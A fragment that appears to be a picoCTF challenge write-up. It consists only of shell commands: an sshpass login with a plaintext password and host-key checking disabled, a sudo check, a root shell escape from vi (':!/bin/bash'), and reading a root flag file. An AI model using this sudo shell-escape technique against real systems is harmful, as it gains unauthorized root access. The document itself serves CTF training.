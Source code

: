 
```bash
sshpass -p 'yX-YQgX-vS' ssh -o StrictHostKeyChecking=no -p 50326 picoplayer@saturn.picoctf.net
```

```bash
sudo -ls
sudo /usr/bin/vi
```

```bash
:!/bin/bash
```

```bash
cat /root/.flag.txt 
```

